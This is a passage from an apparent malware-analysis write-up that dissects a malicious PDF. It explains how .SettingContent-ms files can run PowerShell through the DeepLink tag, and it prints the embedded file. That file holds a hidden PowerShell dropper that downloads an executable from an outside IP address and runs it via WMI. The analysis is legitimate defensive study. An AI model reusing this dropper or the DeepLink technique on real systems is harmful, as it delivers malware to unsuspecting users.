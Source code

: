 
Again adding `--raw --filter` will give us the raw file.

### Overall PDF structure

Now, we have the structure of the PDF, at least as far as objects that relate
to script that will run on opening the document:

![](https://0xdfimages.gitlab.io/img/inovoice.pdf-structure.png)

### downl.SettingContent-ms

#### .SettingContent-ms

So what is a .SettingContent-ms file? It was introduced in Windows 10 to allow
creating shortcuts to Windows 10 settings pages. However, with the
`<DeepLink>` tag, attackers have figured out that they can run arbitrary
PowerShell inside of one. They have been used to get around Application
Whitelisting, and blocking of malicious attachments.

#### File From this PDF

So let’s check out this file:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <PCSettings>
     <SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent">
      <ApplicationInformation>
       <AppID>windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel</AppID>
       <DeepLink>Powershell -nop -windowstyle hidden -c
      $a='http://169.239.129.117/cal'
       $b=\"$env:temp\update12.exe\"
       $webc = [System.Net.WebClient]::new()
       $webc.DownloadFile($a, $b)
       $pclass = [wmiclass]'root\cimv2:Win32_Process'
       $pclass.Create($b, '.', $null)
       </DeepLink>
       </ApplicationInformation>
      <SettingIdentity>
       <PageID></PageID>
       <HostID>{12B1697E-D3A0-4DBC-B568-CCF64A3F934D}</HostID>
      </SettingIdentity>
      <SettingInformation>
       <Description>@shell32.dll,-4161</Description>
       <Keywords>@shell32.dll,-4161</Keywords>
       </SettingInformation>
      </SearchableContent>
     </PCSettings>
    

Basically, it runs the following PowerShell:

    